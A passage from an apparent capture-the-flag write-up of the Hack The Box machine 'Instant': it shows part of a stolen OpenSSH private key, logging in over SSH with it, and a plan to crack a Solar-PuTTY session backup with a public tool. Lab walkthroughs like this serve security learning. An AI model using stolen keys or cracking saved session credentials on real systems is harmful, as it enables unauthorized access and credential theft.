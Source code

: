 ```
5VNy/4CNnMdXALx0OMVNNoY1wPTAb0x/Pgvm24KcQn/7WCms865is11BwYYPaig5F5Zo1r
bhd6Uh7ofGRW/5AAAAEXNoaXJvaGlnZUBpbnN0YW50AQ==
-----END OPENSSH PRIVATE KEY-----
```

- Just save the key on a file like `id_rsa_shirohige` and then add chmod permissions with `chmod 0600 id_rsa_shirohige`

```bash
$: ssh -i id_rsa_shirohige shirohige@10.10.11.37
The authenticity of host '10.10.11.37 (10.10.11.37)' can't be established.
ED25519 key fingerprint is SHA256:r+JkzsLsWoJi57npPp0MXIJ0/vVzZ22zbB7j3DWmdiY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.37' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
shirohige@instant:~$
```

### Post Exploitation

- LET'S GO! We found an interesting file at `/opt/backups/Solar-PuTTY/sessions-backup.dat`

- If we Google about "Solar PuTTY", we can look for some Python or Bash script on GitHub to crack and read the binary file.

#### Decrypting the file with "SolarPuttyCracker"

- GitHub repository:

[https://github.com/ItsWatchMakerr/SolarPuttyCracker](https://github.com/ItsWatchMakerr/SolarPuttyCracker){:target="_blank"}

![](https://raw.githubusercontent.com/mateofumis/mateofumis.github.io/master/assets/img/instant.htb/SolarPuttyCracker-GitHub.webp)
